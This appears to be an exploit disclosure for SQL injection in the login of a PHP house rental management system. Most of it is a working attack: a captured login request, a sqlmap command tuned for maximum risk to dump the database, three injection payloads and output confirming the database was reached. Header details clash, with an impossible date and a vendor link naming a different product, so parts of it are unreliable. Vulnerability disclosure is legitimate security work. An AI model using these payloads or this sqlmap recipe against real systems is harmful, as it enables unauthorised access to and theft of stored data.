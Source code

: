 # House Rental Management System - SQL Injection - 1
+ **Exploit Title:** House Rental Management System - SQL Injection - 1
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'username' parameter at "http://localhost/rental/login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /rental/ajax.php?action=login HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/rental/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=1uglgqsdr43o5j4805l7v9kg7d
Connection: close

username=test&password=test

```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6595=6595-- Zxii&password=test

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=test' AND (SELECT 7493 FROM(SELECT COUNT(*),CONCAT(0x7170717a71,(SELECT (ELT(7493=7493,1))),0x7170716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Pmrg&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 6993 FROM (SELECT(SLEEP(5)))lxxU)-- OQDx&password=test
---
[16:47:40] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:47:40] [INFO] fetching current database
[16:47:40] [INFO] retrieved: 'house_rental_latest'
current database: 'house_rental_latest'

```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 000355](https://github.com/BurakSevben/CVEs/assets/117217689/27b7108b-470f-4a21-9429-f6b3a135aa90)

